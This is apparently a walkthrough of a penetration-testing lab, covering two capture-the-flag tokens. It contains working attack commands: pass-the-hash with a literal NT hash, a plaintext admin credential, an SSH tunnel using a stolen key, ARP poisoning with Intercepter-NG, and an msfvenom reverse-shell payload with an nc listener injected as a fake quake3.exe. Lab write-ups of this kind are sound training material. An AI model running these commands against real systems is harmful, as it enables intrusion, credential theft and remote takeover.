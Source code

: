 ### AD Token

We do an `nmap -A -sV -n 172.16.0.10`. We can connect to the SMBclient and remember we had a hash earlier. We can try Pass the Hash method: `pth-smbclient --user=arm554 --pw-nt-hash -m smb3 -L 172.16.0.10 \\\\172.16.0.10\\ 6361DEA164EE8FE91FE7B117FBC9CA5E`. We can use an MS17-010 exploit. Then we can search the dir to find token.txt and network_test.txt which says `Hi, mate! Need to test ARP-table in DIR subnet. I'll install intercepter admin:77_GrantedSuperAdmin_77`


### DIR Token

We can log in as Morgan using the RSA key we found earlier. We can set up a ssh tunnel like earlier and do an nmap of each individually.

```
root@kali:~# ssh -L 3389: 192.168.12.2:3389 -i ~/test/morgankey morgan@172.16.0.252
(in another terminal)
root@kali:~# rdesktop localhost -u ""
```

From there run Interceptor-NG for ARP Poisoning. Do a Smart Scan and use 192.168.12.3 for DHCP Mode > RAW Mode > PCAP filter > start. Find quake3.exe and on host `root@kali:~/pentestit# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.88 LPORT=80 -f exe > quake3.exe` and either nc or share file the malicious .exe over and inject it through interceptor with `nc -lvp 80`

